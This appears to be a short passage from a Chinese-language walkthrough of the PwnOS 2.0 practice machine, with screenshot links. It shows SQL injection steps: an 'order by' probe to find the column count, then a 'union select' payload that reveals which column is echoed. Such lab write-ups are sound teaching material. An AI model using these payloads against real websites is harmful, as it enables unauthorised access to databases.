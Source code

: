`order by`猜字段,一直尝试到9，`' order by 9-- -`报错：

![Alt text](/img/game/pwnos2.0/1511853661281.png)

使用联合查询。`' union select 1,2,3,4,5,6,7,8-- -`,回显是4：

![Alt text](/img/game/pwnos2.0/1511853815306.png)
